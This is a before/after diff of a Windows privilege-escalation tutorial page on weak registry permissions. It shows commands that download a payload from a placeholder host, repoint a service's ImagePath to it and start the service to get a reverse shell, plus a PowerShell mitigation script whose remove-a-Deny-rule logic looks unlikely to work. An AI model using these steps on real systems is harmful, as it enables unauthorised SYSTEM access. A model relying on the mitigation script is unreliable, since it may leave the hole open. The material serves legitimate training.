

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/WeakRegistryPermissions.md, the part around the change. Shown: that part at 80% size. GitHub-like rendering; pictures changed too: Pictures/Weak-Registry-Permissions-Exploitation-2.png (added), Pictures/Weak-Registry-Permissions-Reverse-Shell.png (added); blank space fills up the shorter version.

Commit message:
Edit Weak Registry Permissions

````diff
--- a/Notes/WeakRegistryPermissions.md
+++ b/Notes/WeakRegistryPermissions.md
@@ -128,7 +128,7 @@ iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
 4) Change the image path for service:
 
 ```
-reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\Servic4.exe" /f
+reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Tasks\Service4.exe" /f
 ```
 
 5) Start the service with the following command or reboot the machine:
@@ -139,4 +139,47 @@ sc start "Vulnerable Service 4"
 
 Outcome:
 
-![]
+![Weak-Registry-Permissions-Exploitation](/Pictures/Weak-Registry-Permissions-Exploitation-2.png)
+
+6) Verify the reverse shell on your Kali machine:
+
+![Weak-Registry-Permissions-Reverse-Shell](/Pictures/Weak-Registry-Permissions-Reverse-Shell.png)
+
+## Mitigation
+
+To defend against Weak Regisrty Permissions vulnerabilities, adjust permissions on Regisrty hives initiated through this mechanism. This limits unauthorized access and strengthens security measures:
+
+1) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4'.
+
+2) Right click on "Vulnerable Service 4" and choose the "permissions" option.
+
+3) Remove the checkmark from the 'Full Control' box assigned to 'Users,' then click the 'OK' button.
+
+However, you can use the following PowerShell script:
+
+```
+# Define the registry key path
+$regKey = "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
+
+# Get the current ACL (Access Control List) for the registry key
+$acl = Get-Acl -Path $regKey
+
+# Specify the account and access rights to be removed
+$account = "BUILTIN\Users"
+$accessRights = [System.Security.AccessControl.RegistryRights]::FullControl
+
+# Create a new access rule to remove FullControl
+$accessRule = New-Object System.Security.AccessControl.RegistryAccessRule($account, $accessRights, "Deny")
+
+# Remove the access rule from the ACL
+$acl.RemoveAccessRule($accessRule)
+
+# Set the modified ACL back to the registry key
+Set-Acl -Path $regKey -AclObject $acl
+```
+
+## References
+
+- [Windows registry information for advanced users Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)
+- [About Registry Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/about-the-registry)
+- [Registry Key Security and Access Rights Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-key-security-and-access-rights)
````
